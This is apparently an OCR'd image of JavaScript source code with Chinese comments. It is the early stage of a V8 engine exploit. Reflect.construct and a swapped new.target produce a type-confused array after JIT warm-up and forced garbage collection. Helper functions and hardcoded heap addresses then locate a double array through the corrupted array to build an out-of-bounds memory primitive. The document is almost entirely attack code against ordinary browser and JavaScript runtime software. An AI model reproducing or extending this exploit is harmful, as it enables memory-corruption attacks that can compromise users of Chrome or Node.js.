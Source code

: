
```js
class A {}

var x = Array;

class B extends A {
  constructor() {
    x = new.target; 
    super();
  }
}

function construct() {
  var r = Reflect.construct(B, [], x);
  return r;
}

let corruptedArr = construct(); 
for (let i = 0; i < 2000; i++) {
    construct(); //多次分配，让JIT形成优化路径
}

var gcSize = 0x4fe00000;
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
//垃圾回收

//创建类型混淆的Array
corruptedArr = construct(); 
%DebugPrint(corruptedArr);
console.log("--------------------------------------------");

//corruptedArr elements: 0x014300000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS] 有符号整数
var emptyAddr = 0x219;
function getOffset(addr) {
    return (addr - emptyAddr) / 4 - 2;
}

//corruptedArr[idx] 4字节
function searchDblArrIndex(startAddr, corruptedArr, marker1, marker2, limit) {
    var startIndex = getOffset(startAddr);
    var end = getOffset(limit);
    for (let idx = startIndex; idx < end; idx += 1) {
        console.log(idx);
      if (corruptedArr[idx] == marker1 && corruptedArr[idx + 2] == marker2) {
        return idx - 3;
      }
    }
}

var oobDblArr = [0x41, 0x42, 0x51, 0x52, 1.5];
//第0格：0x41 → 65.0 → 0x4050400000000000 → 40 50 40 00 00 00 00 00
//第1格：0x42 → 66.0 → 0x4050800000000000 → 40 50 80 00 00 00 00 00
//第2格：0x51 → 81.0 → 0x4054400000000000 → 40 54 40 00 00 00 00 00
//第3格：0x52 → 82.0 → 0x4054800000000000 → 40 54 80 00 00 00 00 00
//第4格：1.5 → 1.5 →   0x3ff8000000000000 → 3F F8 00 00 00 00 00 00


//oobDblArr elements: 0x021e00042191 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
var arrAddr = 0x42191;
//从0x42191找到0x42191+0x1000  idx起始=67548-> 0x219 + 67548 * 4 + 2 = 0x42191
var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, 0x40504000/2, 0x40508000/2, arrAddr + 0x1000);
```